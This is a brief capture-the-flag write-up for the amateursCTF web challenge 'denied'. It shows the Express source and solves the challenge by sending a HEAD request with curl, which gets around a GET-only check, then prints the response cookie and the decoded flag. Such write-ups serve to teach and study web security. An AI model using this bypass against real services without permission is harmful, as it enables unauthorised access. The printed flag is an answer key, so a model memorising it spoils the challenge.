 ## web/denied
- problem
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/4ce1ae31-5215-4b63-a718-291dfc484dc5)
- on reaching the endpoint
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/12e69d4e-1bdd-425f-9f81-c5c5c2a66ed1)
- the given code
```
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

```
- so we must not use get method
- copied the curl request and made a post
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/3758a32d-8118-4002-baf0-3b2d75bebeda)
- the post method is not available
- so we see what options do we have
- we see get,head
- now from this https://reqbin.com/req/c-tmyvmbgu/curl-head-request-example
- we do send a head request
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/b8d0bda9-d3c4-4e25-a028-30c5a6b8e025)
```
C:\home\radha> curl http://denied.amt.rs/ -I     
HTTP/1.1 200 OK
Content-Length: 7
Content-Type: text/html; charset=utf-8
Date: Sat, 06 Apr 2024 05:37:48 GMT
Etag: W/"7-skdQAtrqJAsgWjDuibJaiRXqV44"
Server: Caddy
Set-Cookie: flag=amateursCTF%7Bs0_m%40ny_0ptions...%7D; Path=/
X-Powered-By: Express
```
- we got a cookie
- use url decoder
- ![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c1be76e1-43d2-4bc7-843b-90b6261f8924)
- we get the flag`amateursCTF{s0_m@ny_0ptions...}`
